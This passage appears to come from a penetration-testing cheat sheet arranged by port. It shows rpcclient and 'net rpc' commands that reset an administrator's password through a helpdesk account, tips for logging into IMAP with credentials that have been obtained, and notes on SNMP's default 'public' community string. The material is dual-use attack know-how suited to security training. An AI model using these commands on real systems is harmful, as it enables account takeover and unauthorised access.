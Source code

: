 Users having alternate admin accounts can be easily targeted.

```
rpcclient $> setuserinfo2 adminuser 23 'ASDqwe123'
rpcclient $>
```

Note: The number 23 came from [MSDN article USER\_INFORMATION\_CLASS](https://msdn.microsoft.com/en-us/library/cc245617.aspx). The SAMPR\_USER\_INTERNAL4\_INFORMATION structure holds all attributes of a user, along with an encrypted password.

This can be done using the net command as well but we need to install the samba-common-bin in our machine.

```
root@kali:~# net rpc password adminuser -U helpdesk -S 192.168.80.10
Enter new password for adminuser:
Enter helpdesk's password:
root@kali:~#
```

## Port 143/993 - IMAP

IMAP lets you access email stored on that server. So imagine that you are on a network at work, the emails you recieve is not stored on your computer but on a specific mail-server. So every time you look in your inbox your email-client \(like outlook\) fetches the emails from the mail-server using imap.

IMAP is a lot like pop3. But with IMAP you can access your email from various devices. With pop3 you can only access them from one device.

Port 993 is the secure port for IMAP.

If you have IMAP creds try using the application **thunderbird **or **evolution** to interact.

```
Thunderbird
create new account
username
username@IPADDRESSTARGET
password
```

## Port 161 and 162 - SNMP

Simple Network Management Protocol

SNMP protocols 1,2 and 2c does not encrypt its traffic. So it can be intercepted to steal credentials.

SNMP is used to manage devices on a network. It has some funny terminology. For example, instead of using the word password the word community is used instead. But it is kind of the same thing. A common community-string/password is public.

You can have read-only access to the snmp.Often just with the community string `public`.

Common community strings
